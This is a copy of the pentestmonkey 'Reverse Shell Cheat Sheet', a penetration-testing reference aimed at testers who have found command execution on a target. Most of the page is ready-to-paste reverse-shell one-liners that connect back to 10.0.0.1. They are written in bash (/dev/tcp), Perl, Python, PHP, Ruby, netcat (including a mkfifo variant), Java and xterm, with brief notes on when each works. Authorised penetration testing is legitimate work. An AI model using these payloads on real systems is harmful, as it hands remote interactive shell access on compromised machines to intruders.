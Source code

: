 Reverse Shell Cheat Sheet | pentestmonkey

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

# Reverse Shell Cheat Sheet

If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell.

If it’s not possible to add a new account / SSH key / .rhosts file and just log in, your next step is likely to be either trowing back a reverse shell or binding a shell to a TCP port.  This page deals with the former.

Your options for creating a reverse shell are limited by the scripting languages installed on the target system – though you could probably upload a binary program too if you’re suitably well prepared.

The examples shown are tailored to Unix-like systems.  Some of the examples below should also work on Windows if you use substitute “/bin/sh -i” with “cmd.exe”.

Each of the methods below is aimed to be a one-liner that you can copy/paste.  As such they’re quite short lines, but not very readable.

### Bash

Some versions of [bash can send you a reverse shell](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) (this was tested on Ubuntu 10.10):

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

### PERL

Here’s a shorter, feature-free version of the [perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell):

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

There’s also an [alternative PERL revere shell here](http://www.plenz.com/reverseshell).

### Python

This was tested under Linux / Python 2.7:

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

### PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

If you want a .php file to upload, see the more featureful and robust [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

### Ruby

ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

### Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

nc -e /bin/sh 10.0.0.1 1234

If you have the wrong version of netcat installed, [Jeff Price points out here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498) that you might still be able to get your reverse shell back like this:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

### Java

r = Runtime.getRuntime()

p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])

p.waitFor()
[Untested submission from anonymous reader]

### xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

xterm -display 10.0.0.1:1

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

Xnest :1

You’ll need to authorise the target to connect to you (command also run on your host):

xhost +targetip

### Further Reading

Also check out [Bernardo’s Reverse Shell One-Liners](http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html).  He has some alternative approaches and doesn’t rely on /bin/sh for his Ruby reverse shell.

There’s a [reverse shell written in gawk over here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-122387).  Gawk is not something that I’ve ever used myself.  However, it seems to get installed by default quite often, so is exactly the sort of language pentesters might want to use for reverse shells.

Tags: [bash](http://pentestmonkey.net/tag/bash), [cheatsheet](http://pentestmonkey.net/tag/cheatsheet), [netcat](http://pentestmonkey.net/tag/netcat), [pentest](http://pentestmonkey.net/tag/pentest), [perl](http://pentestmonkey.net/tag/perl), [php](http://pentestmonkey.net/tag/php), [python](http://pentestmonkey.net/tag/python), [reverseshell](http://pentestmonkey.net/tag/reverseshell), [ruby](http://pentestmonkey.net/tag/ruby), [xterm](http://pentestmonkey.net/tag/xterm)

Posted in [Shells](http://pentestmonkey.net/category/cheat-sheet/shells)